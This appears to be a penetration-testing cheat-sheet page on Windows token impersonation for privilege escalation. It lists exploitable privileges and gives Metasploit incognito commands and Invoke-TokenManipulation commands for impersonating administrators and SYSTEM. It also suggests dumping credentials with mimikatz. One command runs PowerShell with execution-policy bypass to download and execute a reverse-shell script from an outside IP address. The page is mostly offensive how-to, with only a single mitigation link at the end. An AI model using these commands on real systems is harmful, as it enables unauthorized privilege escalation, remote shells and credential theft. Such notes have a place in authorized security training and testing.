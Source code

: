 # Token Impersonation

Token impersonation is a technique through which a Windows local administrator could steal another user’s security token in order to impersonate and effectively execute commands as that user.

That are certain privileges in Windows that, if enabled, could lead to an attacker escalating privileges to SYSTEM or any other user account with an active and valid token on that system, through various tools that have been designed to specifically exploit this vulnerability.

### <mark style="color:orange;">**Exploitable Privileges**</mark>

Certain privileges can be exploited to either escalate privileges directly to SYSTEM or to perform actions that are normally restricted. The privileges listed below can grant direct admin access when exploited:

| Privilege            | Impact | Tool              |
| -------------------- | ------ | ----------------- |
| SeAssignPrimaryToken | Admin  | 3rd party tool    |
| SeImpersonate        | Admin  | 3rd party tool    |
| SeBackupPrivilege    | Admin  | 3rd party tool    |
| SeBackup             | Threat | Built-in commands |
| SeCreateToken        | Admin  | 3rd party tool    |
| SeDebug              | Admin  | PowerShell        |
| SeLoadDriver         | Admin  | 3rd party tool    |
| SeRestore            | Admin  | PowerShell        |
| SeTakeOwnership      | Admin  | Built-in commands |
| SeTcb                | Admin  | 3rd party tool    |

full list is here:

{% embed url="https://github.com/gtworek/Priv2Admin" %}

### <mark style="color:orange;">Using Metasploit</mark>

in your meterpreter shell load incognito module:

```
load incognito
```

list available tokens:

```
list_tokens -u
```

Impersonate Administrator:

```
impersonate_token megacorp\\administrator
```

### <mark style="color:orange;">Invoke-TokenManipulation</mark>

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Exfiltration/Invoke-TokenManipulation.ps1" %}

Invokes token impersonation as a domain user. If this doesn't work you can try impersonating SYSTEM and then dumping credentials using mimikatz.

```
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"

Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"

Get-Process wininit | Invoke-TokenManipulation -CreateProcess "cmd.exe"
```

As a replacement for the last command you could do, but be vary of special characters in the command like `"` and `'`

```
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```

## <mark style="color:red;">Other Techniques</mark>

{% embed url="https://steflan-security.com/linux-privilege-escalation-token-impersonation" %}

{% embed url="https://decoder.cloud/2017/12/23/the-lonely-potato" %}

## <mark style="color:red;">Mitigation & Detection</mark>&#x20;

{% embed url="https://attack.mitre.org/techniques/T1134/003" %}
